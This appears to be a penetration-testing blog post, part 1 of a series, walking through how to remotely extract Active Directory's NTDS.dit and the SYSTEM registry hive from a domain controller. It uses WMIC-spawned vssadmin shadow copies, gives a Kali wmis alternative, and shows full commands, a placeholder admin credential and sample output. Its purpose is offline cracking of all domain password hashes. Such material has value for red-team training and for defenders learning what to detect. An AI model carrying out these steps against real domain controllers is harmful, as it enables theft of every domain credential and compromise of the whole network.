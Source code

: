 = Volume Shadow Copy NTDS.dit Domain Hashes Remotely - Part 1
:hp-tags: shadowcopy, cracking

> This and part 2 are mostly just an update to [http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html](http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html) but without the need for VSSOwn, that and we are doing it remotely without the need for shell on the DC.

Ever run into a Domain Controller that wasn't allowed to talk to the Internet, had insane AV and GPOs not allowing anyone to RDP in (Even Domain Admins) unless they provided some kind of voodo happy dance? Ya me neither, but here is how you can still dump domain hashes and hash history if you run into that case. Lets start

First authenticate to the domain controller and make sure you have a good working directory to use.

```
net use \\DC1 /user:DOMAIN\domainadminsvc domainadminsvc123
dir \\DC1\C$
```    

Alright, lets say "TEMP" is there and it's empty on the remote DC. The way we are going to run commands will not allow us to get results directly so we are going to use a temp file on the DC in `C:\TEMP` where we already made sure is clear.

We are going to be using Volume Shadow Copies to pull the NTDS.dit file (Active Directory's DB much like Window's SAM file except that it stores the entire AD set of objects there), we also need the SYSTEM registry hive. You can get the SAM registry hive as well but that will only get local DC credentials.

So lets list the current volume shadow copies to see if we need to create one, from a Windows command prompt (or if you've installed wmic for Linux via [http://www.krenger.ch/blog/wmi-commands-from-linux/](http://www.krenger.ch/blog/wmi-commands-from-linux/) ) - this _IS_ an interactive command so this won't work very nicely in a Meterpreter shell:

```
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin list shadows 2>&1 > C:\tempoutput.txt"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 7304;
        ReturnValue = 0;
};
```

To break down this command:

* `wmic /node:DC1` - tells it to interact with the WMI API on DC1
* `/user:DOMAIN\domainadminsvc /password:domainadminsvc123` - authentication
* `process call create` - WMI speak for create a process
* `cmd /c` - vssadmin doesn't operate outside of cmd for some reason...
* `vssadmin list shadows` - List any shadow volumes that already exist
* `2>&1 > C:\temp\output.txt` - Take STDIN and STDERROR and throw it in a text file on DC1 C:\TEMP. Make sure you specify full path because you will be executing from within C:\Windows\System32 and its a pain to find anything in that directory. So if you just specify > bob.txt you get to hunt in C:\Windows\System32 or wherever WMI wants to execute you from for bob.txt

Process starts and then you need to view the output file by either copying it down, `type \DC1\C$\TEMP\output.txt` or mount the C drive as a network share. Either way you should either see something like this:

``` 
C:\temp>type output.txt
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Contents of shadow copy set ID: {671090fd-0198}
   Contained 1 shadow copies at creation time: 5/31/2013 11:29:03 AM
      Shadow Copy ID: {0863e309}
         Original Volume: (C:)\\?\Volume{c44da10e-0154-11e1-b968-806e6f6e6963}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: wpad
         Service Machine: wpad
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessibleWriters
         Attributes: Persistent, Client-accessible, No auto release, Differential, Auto recovered
```

or

```    
C:\temp>type output.txt
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

No items found that satisfy the query
``` 

If there are no shadow copies or the ones there are too old (look at the creation time), you can create a shadow copy using the 'vssadmin create shadow /for=C: command. (This command only applies to Server OS (Win2k3/Win2k8) but since those are the only two that commonly have NTDS.dit files we don't have to remember this):

```    
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > C:\temp\output.txt"
``` 

The other thing to keep in mind is that NTDS.dit isn't always on the main drive. It is commonly on a "D" drive for safety if a HDD goes bad or something. But it should always be in a folder called NTDS. (By default this is C:WindowsNTDS)

Next we just copy the files out of the shadow copies. First the SYSTEM hive:

```
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\SYSTEM.hive 2>&1 > C:\temp\output.txt"
```

Then the NTDS.dit (notice this one isn't in System32):

``` 
C:\temp>wmic /node:DC1 /user:DOMAIN\domainadminsvc /password:domainadminsvc123 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit 2>&1 > C:\temp\output.txt"
```

In Kali Linux you could use the WMIS package to do much the same thing:

``` 
root@kali:~# wmis -U DOMAIN\domainadminsvc%domainadminsvc123 //DC1 cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit 2>&1 > C:\temp\output.txt
NTSTATUS: NT_STATUS_OK - Success
```

Copy those files to your own system for offline extraction which I'll cover in part 2.